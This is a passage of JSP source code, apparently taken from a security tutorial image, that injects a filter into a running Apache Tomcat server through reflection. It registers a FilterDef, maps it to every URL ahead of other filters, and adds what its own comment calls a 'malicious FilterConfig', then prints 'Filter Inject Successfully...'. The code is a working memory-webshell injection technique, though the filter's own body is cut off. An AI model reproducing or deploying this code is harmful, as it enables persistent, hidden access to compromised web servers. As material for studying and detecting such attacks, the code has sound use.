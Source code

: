 ```jsp
                    return;
                }
                chain.doFilter(request, response);
            }
        };

        //Reflection gets FilterDef, sets filter name and other parameters, call addFilterDef to add FilterDef
        Class<?> filterDef = Class.forName("org.apache.tomcat.util.descriptor.web.FilterDef");
        Constructor<?> filterDefDeclaredConstructor = filterDef.getDeclaredConstructor();
        filterDefDeclaredConstructor.setAccessible(true);
        FilterDef filterDef1 = (FilterDef) filterDefDeclaredConstructor.newInstance();
        filterDef1.setFilter(filter);
        filterDef1.setFilterName(filterName);
        filterDef1.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef1);

        //Reflection gets FilterMap and sets the intercept path, call addFilterMapBefore to add FilterMap
        Class<?> filterMap = Class.forName("org.apache.tomcat.util.descriptor.web.FilterMap");
        Constructor<?> filterMapDeclaredConstructor = filterMap.getDeclaredConstructor();
        filterMapDeclaredConstructor.setAccessible(true);
        FilterMap filterMap1 = (FilterMap) filterMapDeclaredConstructor.newInstance();
        filterMap1.addURLPattern("/*");
        filterMap1.setFilterName(filterName);
        filterMap1.setDispatcher(DispatcherType.REQUEST.name());
        standardContext.addFilterMapBefore(filterMap1);

        // Reflection to get ApplicationFilterConfig
        Class<?> applicationFilterConfig = Class.forName("org.apache.catalina.core.ApplicationFilterConfig");
        Constructor<?> applicationFilterConfigDeclaredConstructor = applicationFilterConfig.getDeclaredConstructor(Context.class, FilterDef.class);
        applicationFilterConfigDeclaredConstructor.setAccessible(true);
        ApplicationFilterConfig applicationFilterConfig1 = (ApplicationFilterConfig) applicationFilterConfigDeclaredConstructor.newInstance(standardContext, filterDef1);

        // Add malicious FilterConfig to FilterConfigs obtained from StandardContext
        filterConfigsMap.put(filterName, applicationFilterConfig1);
        out.println("Filter Inject Successfully...");
    }
%>
```
